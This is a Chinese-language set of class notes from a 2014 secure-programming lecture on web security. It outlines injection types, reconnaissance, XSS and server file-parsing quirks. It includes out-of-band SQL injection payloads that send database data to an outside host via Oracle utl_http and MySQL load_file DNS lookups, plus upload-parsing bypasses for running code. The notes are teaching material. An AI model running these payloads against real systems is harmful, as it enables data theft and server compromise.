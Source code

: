 ```yaml
---
layout: post
title: 'Secure Programming 2014-12-16'
category: note
slug: secure-programming-20141216
---
```

2014/12/16 Secure Programming Class Note

今天的課程請到 Orange Tsai 大大，講題為 Web Security。

- 三大面向（交集：思路）
    - 技術
    - 經驗
    - 技巧

[SQL Injection 練習網站][1]

## Injection Flaw

- SQL injection
- cross site script
- code injection
- LDAP injection
- XPATH injection
- command injection

## 資訊搜集

- Web Fingerprints
    - wappalyzer, whatweb, recon-ng
- 經驗
    - Header
    - Python 遇到錯的編碼容易掛掉
    - 錯誤頁面
    - Google
        - "site:www.nctu.edu.tw ext:php"
    - Strust2
        - ?actionError=1
    - RESTful
        - http://xxxx/show/id/1
        - http://xxxx/show.php?id=1
- Dictionary Attack
    - 路徑
    - /admin
    - /phpmyadmin
    - /sourcecode.zip

## SQL Injection

- Union based
- Error based
- Blind based
- Time based
- Out of band（讓 database 把東西丟出來）
    - Oracle
        - request.utl_http('http://orange.tw/'\|\|(select user from dual))
    - MySQL (along with Windows)
        - UNC path (\\127.0.0.1\c$)
        - load_file(concat('\\\\',version(),'.orange.tw\cxx'))
            - 5.1.3.orange.tw
        - dnslogger -> skullsecurity nbtools

## Cross Site Scripting (XSS)

- http://pwn.orange.tw
- svg onload
- Tweetdeck XSS Emoji

## PHP 語言鬆散特性

- Wordpress 漏洞
- 2014 台大學生會長選舉網站 preg_match() === 0
- Apache feature
    - "hacker.php.xxx" works
- Nginx + PHP (舊版)
    - 又稱 Nginx 文件解析漏洞（但其實不是 Nginx 的漏洞）
        - 圖檔嵌入 PHP code
        - big.jpg/.php
        - http://pastebin.com/robots.txt
            - Content-Type = text/plain
        - http://pastebin.com/robots.txt/a.php
            - Content-Type = text/html
- IIS + ASP (IIS 6 以下)
    - 分號 parsing 錯誤
        - "xxx.asp;a.jpg"
    - 名稱為 ".asp" 結尾的 directory 其下的檔案都會被當成 ASP 來執行
        - /a.asp/avatar.jpg 當成 asp 執行
- Java
    - sessioin fixation
    - "1.jsp" 不可執行但 "1.jsp;" 可以

## Tools

- Firefox (OSWASP mantra)
    - Cookie Manageer
    - FoxyProxy
    - HackBar
    - Modify Headers
        - Include shellshock testing each HTTP request
    - Tamper Data
    - Wappalyzer
    - X-Forwarded-For
        - 127.0.0.1
- Burp Suite

[1]: http://sqli.exp.tw

